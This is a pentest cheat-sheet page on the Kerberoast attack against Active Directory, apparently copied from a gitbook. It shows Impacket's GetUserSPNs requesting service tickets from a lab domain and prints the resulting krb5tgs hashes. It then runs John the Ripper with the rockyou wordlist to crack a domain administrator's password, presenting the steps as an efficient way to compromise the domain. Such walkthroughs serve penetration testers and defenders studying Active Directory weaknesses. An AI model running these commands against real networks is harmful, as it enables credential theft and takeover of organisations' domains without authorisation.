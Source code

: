 #### kerberoast
## VOIR AUSSI: Kerberos/ AS REP Roast
## tool pour exploitation en local: Rubeus.exe


This page deals with compromising Active Directory with Kerberoast attack.
Introduction

For several reasons, it is very common in Active Directory environments to find services launched with domain administrator accounts. A Service Principal Name (SPN) associates a service and the user who launched it.

ServicePrincipalName                Name        MemberOf                                          PasswordLastSet
----------------------------------  ----------  ------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                    2016-05-13 19:13:20

Any domain user is allowed to request a ticket for a service and locally crack it to retrieve the cleartext password of the domain administrator who launched the service.

If the attack is successful, the attacker compromise the Active Directory domain.
Request SPNs Tickets

Use Impacket's GetUserSPNs:

root@wpad:~/impacket/examples# ./GetUserSPNs.py -request sittingduck.info/notanadmin
Impacket v0.9.15-dev - Copyright 2002-2016 Core Security Technologies
​
Password:
ServicePrincipalName                Name        MemberOf                                              PasswordLastSet
----------------------------------  ----------  ----------------------------------------------------  -------------------
http/win10.sittingduck.info         uberuser    CN=Domain Admins,CN=Users,DC=sittingduck,DC=info  2015-11-10 23:47:21
MSSQLSvc/WIN2K8R2.sittingduck.info  sqladmin01                                                        2016-05-13 19:13:20
​
$krb5tgs$23$*sqladmin01$SITTINGDUCK.INFO$SPN*$6e5307df490c6e3339f613fdc5655785$80ba233b4d24531202f2e354c99e7eda807bde7aeeb48ee4cdb6bf809d78652413699e3cff8b9b78b9ee70e997a538155fc7f72e208d715020d458b8413d4b12b212738833c4694d84937d65cb8ecd0020c00a5d39c07da35a748ea2cb062fca4fa9b282e7046d70ee1cae4cfee7d6f791052e283
$krb5tgs$23$*uberuser$SITTINGDUCK.INFO$SPN*$27c08ed2a8d5394f66e8c13c25c98393$310b787ec5c10b20fcc0acb1406b6a6e2ffddd71de3dc4c70c19e5dfcf262cc88574e61cb3940ebfd574b2bb555f2b05f84d8526e3cf46fc0ca57e03467729757cbf79da9f55cde9dabdda68e80dce6564e9f1b904b0585dbc813b82abf89e973e41c102b664f4c649f85acaf7904a273dddcb9315a66f27334f313190e1caf4f5055b671d250f5912cc1871a1dd4a6126087ddfb98ade8f7dde495ee8ad76583aa5a12eef63a690dd82a15eaaca0d7594f2f1dbc899035d89dd628b291590058cfb3405d1dfe4a383be5704465d9c8972ef8f1cba3541fdfa7dcf5063eaed74051fa18bd73f7b4f7d77

uberuser belongs to Domain Admins group (cf. MemberOf column).
Crack Tickets

First, install MagnumRipper version of John The Ripper which supports KRB5TGS format.
Then crack Tickets to obtain cleartext passwords:

root@wpad:~/johntheripper/run# ./john /tmp/johnkirb.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 11 password hashes with 11 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Warning: OpenMP is disabled; a non-OpenMP build may be faster
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 3.35% (ETA: 23:38:44) 0g/s 69751p/s 767263c/s 767263C/s 129700..123junior
ASDqwe123        ($krb5tgs$unkown)
ASDqwe123        ($krb5tgs$unkown)

It is an efficient way to compromise domain admin password and consequently Active Directory domain.

source: https://aas-n.gitbook.io/cheatsheet/compromise-domain/kerberoast-attack


